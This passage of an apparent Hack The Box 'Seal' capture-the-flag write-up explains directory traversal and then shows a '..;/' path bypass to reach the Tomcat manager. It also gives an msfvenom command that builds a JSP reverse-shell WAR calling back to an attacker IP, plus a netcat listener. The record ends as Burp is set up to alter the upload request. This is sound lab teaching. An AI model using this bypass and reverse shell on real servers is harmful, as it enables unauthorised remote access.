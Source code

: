 There are two basic groups of directory traversal vulnerabilies:

- In the web server: typically exploited to execute files. The method for this type of directory traversal attack involves sending URLs to the web server that contain the name of the targeted file and have been modified with commands and web server escape codes. Escape codes are used as workarounds when certain commands are being filtered for; for example, an attacker might use the "%2e%2e/" escape code if the “../” command is blocked. This directory traversal example requires trial-and-error from the attacker, but it is still fairly easy to access and execute files when adequate preventative procedures are not in place.
- In application code: can be exploited by sending URLs that instruct the web server to return specific filees to the application. For this method to work, the attacker must find a URL in which an application retrieves a file from the web server. Once attackers discover such a URL, they can simply modify the URL string with commands for the server and the name of the file they seek to access. The “../” directive is commonly used, as it instructs the web server to retrieve a file from one directory up. An attacker that is attempting to access a specific file will simply use trial-and-error to determine how many “…/” commands it takes to locate the correct directory and retrieve the file via the application.

In our case, we can access the page we want by browsing to *https://seal.htb/manager/jmxproxy/..;/html*:

<div class="img_container">
![manager2]({{https://jsom1.github.io/}}/_images/htb_seal_manag2.png){: height="415px" width = 625px"}
</div>

We now indeed see the possibility to upload files. Let's generate the payload as indicated in the article:

````
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f war -o revshell.war
`````

After uploading it on the server and refreshing the page, we see it in the applications:

<div class="img_container">
![manager3]({{https://jsom1.github.io/}}/_images/htb_seal_manag3.png){: height="415px" width = 625px"}
</div>

We set up a netcat listener on port 4444:

````
sudo nc -nlvp 4444
`````

And we click on our uploaded shell:

<div class="img_container">
![error]({{https://jsom1.github.io/}}/_images/htb_seal_error.png)
</div>

It doesn't work. We see in the URL where it tried to upload it: */manager/html/upload*. However, we don't have access to that directory. Let's set up Burp as a Proxy and intercept the request. We see the POST request to */manager/html/upload*, and we will change it as follows:

<div class="img_container">
![burp]({{https://jsom1.github.io/}}/_images/htb_seal_burp.png){: height="415px" width = 625px"}
</div>
